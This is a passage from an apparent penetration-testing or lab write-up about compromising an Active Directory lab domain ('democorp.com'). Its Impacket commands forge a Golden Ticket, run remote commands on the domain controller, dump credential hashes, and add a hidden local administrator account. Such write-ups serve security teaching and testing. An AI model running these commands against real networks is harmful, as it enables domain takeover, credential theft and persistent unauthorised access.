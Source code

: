 ## Creating a Golden Ticket

To generate the Golden Ticket, we must first obtain a Domain SID. This can be achieved by utilizing Impacket's `lookupsid.py` tool. Next, we can craft the ticket using obtained AES256 key (or NTLM hash) belonging to `krbtgt` account using the Impacket's `ticketer.py`.

```
impacket-lookupsid 'democorp.com/j.arnold:F4ll2023!@10.10.24.250'
impacket-ticketer -domain-sid <SID> -domain democorp.com Administrator -aesKey <key>
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/37-1.png)

## Using the Golden Ticket

Once we have the ticket, we can use it to authenticate to the machines on the domain. It is important to use FQDN's (democorp-dc.democorp.com) instead of IP addresses (10.10.24.250) as well as fix the clock skew between the Domain Controller and attacker's machine.
```
rdate -n 10.10.24.250
KRB5CCNAME=<ticket> impacket-smbexec democorp-dc.democorp.com -k -no-pass -target-ip 10.10.24.250 -dc-ip 10.10.24.250
```
![](http://news.baycode.eu/wp-content/uploads/2023/11/38-1.png)

## Dumping credentials

The default domain controller policy is restricting us however from dumping the hashes from the domain controller fully.

```
KRB5CCNAME=<ticket> impacket-secretsdump democorp-dc.democorp.com -k -no-pass -target-ip 10.10.24.250 -dc-ip 10.10.24.250
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/39.png)

We could only dump the secrets for one user at a time with `-just-dc-user` switch.

```
KRB5CCNAME=<ticket> impacket-secretsdump democorp-dc.democorp.com -k -no-pass -target-ip 10.10.24.250 -dc-ip 10.10.24.250
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/40.png)

However when we have the Golden Ticket, we could create the local account on the Domain Controller, and then dump all the hashes using this account over NTLM authentication.

```
net user helpdesk G3t_somehelp_bro /ADD /Y
net localgroup Administrators helpdesk /add
```

